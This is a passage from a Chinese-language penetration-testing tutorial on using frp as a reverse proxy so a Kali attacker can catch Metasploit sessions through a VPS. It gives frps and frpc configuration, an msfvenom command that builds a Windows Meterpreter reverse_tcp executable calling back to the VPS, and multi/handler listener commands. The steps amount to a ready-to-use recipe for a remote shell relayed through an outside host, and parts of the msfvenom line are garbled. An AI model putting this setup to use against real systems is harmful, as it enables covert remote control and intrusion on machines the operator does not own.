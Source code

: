   

* * *

###   

### **7.2 反向代理**

`#环境**：**``kali：192.168.109.128``Win2008：192.168.1.10``vps：x.x.x.x`

①服务端配置

```
`#frp服务端与客户端连接端口，frps和frpc必须一致``bind_port = 7000`
```

②服务端启动frp

```
 ./frps -c ./frps.ini
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

③客户端frpc.ini文件配置

```
`[common]``server_addr = x.x.x.x     #你的云主机ip``server_port = 7000        # frpc工作端口，必须和上面frps保持一致``[msf]``type = tcp``local_ip = 127.0.0.1``local_port = 5000            #转发给本机的5000``remote_port = 6000         #服务端用6000端口转发给本机` 
```

④启动客户端

```
 ./frpc -c ./frpc.ini
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  
⑤连接成功  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
⑥msf生成payload  

```
`msfvenom -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=6000 x-f exe x>frp.exe``#注意：``lhost：必需设置为vps服务端ip``lport：设置你在frpc.ini的remote_port = 6000`
```

只有通过服务器的6000端口数据包才能成功转发kali，这也是使用frp反向代理原因

* * *

  
⑦msf开启监听  

```
`use exploit/multi/handler``set payload windows/meterpreter/reverse_tcp``set lhost 127.0.0.1#设置监听ip，必须和frpc中的local_ip 一致``set lport 5000 #设置监听端口，与frpc中的local_port一致``run`
```

